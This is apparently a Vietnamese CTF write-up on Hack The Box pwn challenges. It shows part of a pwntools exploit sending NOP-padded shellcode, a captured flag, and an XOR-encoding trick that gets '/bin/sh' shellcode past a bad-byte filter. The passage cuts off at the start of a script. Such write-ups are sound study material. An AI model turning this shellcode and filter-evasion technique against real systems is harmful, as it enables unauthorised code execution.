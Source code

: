 ```
print(len(shellcode))
input()
payload = shellcode.ljust(0x10,b'\x90') + p64(0x000000000040106b)
p.send(payload)
p.interactive()
```

à đến đoạn overwrite  RIP thì dùng call hoặc jmp đều oke nhe

```HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_0n_t1m3}```
![image](https://hackmd.io/_uploads/HyeS3XY-kg.png)



5 . execute (shellcode custom)
----------------

- 1 bài shellcode bị filter 


ta thấy nó sẽ check các bad_byte có trong shellcode của ta không , nếu có thì end chương trình

![image](https://hackmd.io/_uploads/r1mLwCF-ke.png)

-> kĩ năng viết shellcode 

ta sẽ có ý tưởng là dùng phép xor ở đây , add sub cũng dc nhưng có vẻ mình làm thì tốn khá nhiều byte , còn đoạn rdx,rsi,rax chỉ cần push pop là oke


- đầu tiên là phải kiếm được 1 giá trị sau khi xor với giá trị này thì nó sẽ trở về đoạn /bin/sh của ta


- sau 1 lúc thì ta kiếm được 0x2a2a2a2a2a2a2a2a

ok sẽ kh có bad byte ở đây 
![image](https://hackmd.io/_uploads/HkvwK0FZyg.png)


```
mov rax, 0x2a2a2a2a2a2a2a2a
push rax

mov rax,0x2a2a2a2a2a2a2a2a ^0x68732f6e69622f
xor [rsp],rax     ở đây ta dùng tính chất của phép xor
mov rdi,rsp       xor xong thì chỉ việc mov vào rdi
```

okay phần khó nhất là ở trên đoạn còn lại easy

script 
```
#!/usr/bin/python3
